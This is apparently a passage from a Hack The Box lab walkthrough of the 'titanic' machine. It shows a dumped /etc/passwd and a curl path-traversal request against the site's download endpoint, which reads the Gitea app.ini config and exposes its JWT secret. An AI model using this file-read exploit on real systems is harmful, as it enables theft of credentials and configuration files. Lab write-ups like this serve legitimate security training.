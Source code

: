 ```
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

I don't want to get the user.txt flag now, I don't want it to be so easy, I will wait till I get a shell with the user.

Now, what we have to do is pretty clear... We have the path of the gitea config (/home/developer/gitea/data) and we can download files from the server, so we'll have to search important files over there.

I find this very useful documentation page: https://docs.gitea.com/next/help/faq#where-does-gitea-store-x-file

After trying some paths I found this:
```
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

```
